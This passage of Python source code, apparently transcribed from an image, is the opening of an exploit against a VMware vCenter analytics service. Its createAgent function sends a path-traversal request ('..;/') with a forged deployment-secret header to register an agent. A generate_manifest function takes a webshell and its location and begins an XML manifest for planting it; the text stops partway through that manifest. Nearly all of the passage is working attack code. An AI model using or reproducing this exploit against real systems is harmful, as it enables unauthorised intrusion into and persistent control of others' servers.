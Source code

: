 ```python
def escape(_str):
 _str = _str.replace("&", "&amp;")
 _str = _str.replace("<", "&lt;")
 _str = _str.replace(">", "&gt;")
 _str = _str.replace("\"", "&quot;")
 return _str
  
def str_to_escaped_unicode(arg_str):
 escaped_str = ''
 for s in arg_str:
   val = ord(s)
   esc_uni = "\\u{:04x}".format(val)
   escaped_str += esc_uni
 return escaped_str
 
 
def createAgent(target, agent_name, log_param):
 
  
 url = "%s/analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=%s&_i=%s" % (target, agent_name, log_param)
 headers = { "Cache-Control": "max-age=0", 
       "Upgrade-Insecure-Requests": "1", 
       "User-Agent": "Mozilla/5.0", 
       "X-Deployment-Secret": "abc", 
       "Content-Type": "application/json", 
       "Connection": "close" }
       
 json_data = { "manifestSpec":{}, 
        "objectType": "a2",
        "collectionTriggerDataNeeded": True,
        "deploymentDataNeeded":True, 
        "resultNeeded": True, 
        "signalCollectionCompleted":True, 
        "localManifestPath": "a7",
        "localPayloadPath": "a8",
        "localObfuscationMapPath": "a9" }
         
 requests.post(url, headers=headers, json=json_data, verify=False)
  
 
def generate_manifest(webshell_location, webshell):
 
 manifestData = """<manifest recommendedPageSize="500">
   <request>
    <query name="vir:VCenter">
      <constraint>
       <targetType>ServiceInstance</targetType>
      </constraint>
      <propertySpec>
       <propertyNames>content.about.instanceUuid</propertyNames>
       <propertyNames>content.about.osType</propertyNames>
       <propertyNames>content.about.build</propertyNames>
       <propertyNames>content.about.version</propertyNames>
      </propertySpec>
    </query>
   </request>
   <cdfMapping>
    <indepedentResultsMapping>
      <resultSetMappings>
       <entry>
         <key>vir:VCenter</key>
         <value>
```